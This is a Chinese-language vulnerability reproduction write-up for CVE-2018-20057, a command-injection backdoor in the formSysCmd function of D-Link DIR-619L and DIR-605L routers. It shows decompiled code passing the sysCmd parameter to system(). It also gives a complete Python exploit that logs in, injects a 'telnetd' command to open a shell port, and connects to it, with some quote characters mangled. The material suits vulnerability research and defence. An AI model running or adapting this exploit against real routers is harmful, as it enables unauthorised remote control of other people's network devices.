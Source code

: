 # （CVE-2018-20057）D-Link DIR-619L&605L 命令注入漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3381](https://www.zhihuifly.com/t/topic/3381)

# （CVE-2018-20057）D-Link DIR-619L&605L 命令注入漏洞

## 一、漏洞简介

D-LINK的DIR-619L Rev.B 2.06B1版本之前和DIR-605L Rev.B 2.12B1版本之前的设备，在/bin/boa文件的formSysCmd函数存在后门，导致攻击者在身份认证后可以通过访问

```
http://[ip]//goform/formSysCmd并指定sysCmd参数，从而实现远程命令注入。 
```

固件下载地址：ftp://ftp2.dlink.com/PRODUCTS/DIR-619L/REVB/

本漏洞的路由器运行环境与CVE-2018-20056相同。

## 二、漏洞影响

D-LINK的DIR-619L Rev.B 2.06B1版本之前和DIR-605L Rev.B 2.12B1版本之前的设备。

## 三、复现过程

### 漏洞分析

查看ghidra中的反编译代码，在formSysCmd中，首先获取sysCmd参数，然后通过snprintf写入栈中变量，直接调用system函数执行该参数内容。

```
void formSysCmd(undefined4 uParm1)
{
  undefined4 uVar1;
  char *pcVar2;
  char acStack120 [104]; `uVar1 = websGetVar(uParm1,“submit-url”,&DAT_004ac874);

//获取post参数sysCmd，该参数可由用户控制

pcVar2 = (char *)websGetVar(uParm1,“sysCmd”,&DAT_004ac874);

if (*pcVar2 != 0) {

//将sysCmd写入栈中，并调用system执行

snprintf(acStack120,100,"%s 2>&1 > %s",pcVar2,"/tmp/syscmd.log");

system(acStack120);

}

websRedirect(uParm1,uVar1);

return;

}` 
```

### 漏洞复现

该漏洞是在身份认证成功之后才可实现命令注入，需要先登录输入用户名和口令。由于是在qemu中模拟固件，通过apmib_get读取路由器本地配置无法实现，所以在劫持了apmib_get函数之后，login输入的用户名和密码暂时填为空。在真机上操作时，换成真实的用户名和密码即可。

```
import requests
import sys
import struct
import base64
from pwn import *
context(arch='mips',endian='big',log_level='debug') `ip=‘192.168.84.129’

port=101

def login(user,password):

postData = {

‘login_name’:’’,

‘curTime’:‘1234’,

‘FILECODE’:’’,

‘VER_CODE’:’’,

‘VERIFICATION_CODE’:’’,

‘login_n’:user,

‘login_pass’:base64.b64encode(password),

}

response = requests.post(‘http://’+ip+’/goform/formLogin’,data=postData)

#print response.url

def syscmd(cmd):

postData = {

‘sysCmd’:cmd,

‘submit-url’:‘1234’,

}

response = requests.post(‘http://’+ip+’/goform/formSysCmd’,data=postData)

#print response.url

def inter():

p=remote(ip,port)

p.interactive()

if **name** == “**main**”:

login(’’,’’)#这里要写实际的用户名和密码，例如admin 12345

syscmd('telnetd -p '+str(port))

inter()` 
```

另由于qemu模拟时，/dev下没有pty设备，导致telnet连接不能实现，但是端口是已经打开了：

![image](img/3ae319536d3b869a8084b9f9a4774ebb.png)

![image](img/092262c8303782661ff4fb6c46a54c8a.png)